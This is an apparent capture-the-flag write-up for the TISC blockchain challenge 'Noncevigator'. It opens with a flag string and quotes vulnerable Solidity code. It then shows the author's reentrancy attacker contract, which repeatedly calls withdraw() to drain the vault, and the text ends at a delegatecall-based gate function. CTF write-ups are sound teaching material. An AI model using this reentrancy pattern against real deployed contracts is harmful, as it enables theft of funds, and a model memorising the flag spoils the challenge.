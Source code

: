 
`TISC{hwfuninnit}`

# RE Path - Noncevigator (Level 06)

> I guess their Trusted Platform Modules were not so trusted afterall. What
> about blockchain? Blockchain is secure by design, right?
> 
> It seems like our enemies may have hidden some of their treasures somewhere
> along in our little island, all secured by this blockchain technology.
> 
> We have heard rumours that to access the treasure, you must navigate to the
> correct location and possess the correct value of the "number used only once".
> This unique code is essential for unlocking the fortified gate guarding the
> treasure!
> 
> Ensure your wallet is sufficiently funded for travel and any potential
> challenges you may encounter. Your journey begins now. It's your mission now -
> crack the code and see what treasures they are hiding!

Finally, PALINDROME is outsourcing their technology to something well-known and
trusted - blockchain! Despite being on the RE path, this was strangely not an RE
challenge but a blockchain/pwn challenge. The main 2 vulnerabilities are here:

```solidity
function withdraw() external {
    uint256 balance = getUserBalance(msg.sender);
    require(balance > 0, "Insufficient balance");

    (bool success, ) = msg.sender.call{value: balance}("");
    require(success, "Failed to withdraw Ether");

    userBalances[msg.sender] = 0;
}
```

We can do a reentrancy attack here. I used the following to withdraw all the
funds:


```solidity
function withdraw() external {
    msg.sender.call{value: address(this).balance}("");
}

receive() external payable {
    if (address(this).balance <= 170 ether) {
        travelFundvault.withdraw();
    }
}
```

Once we have sufficient funds, we can call the `startUnlockingGate` function.

```solidity
travelFundVaultAddr = tfvAddr;
treasureLocations["hindhede"] = hindhedeAddr;
treasureLocations["coneyIsland"] = coneyIslandAddr;
treasureLocations["pulauSemakau"] = pulauSemakauAddr;
isLocationOpen["coneyIsland"] = true;

function startUnlockingGate(string calldata _destination) public {
    require(treasureLocations[_destination] != address(0));
    require(msg.sender.balance >= 170 ether);

    (bool success, bytes memory retValue) = treasureLocations[_destination].delegatecall(abi.encodeWithSignature("unlockgate()"));
```
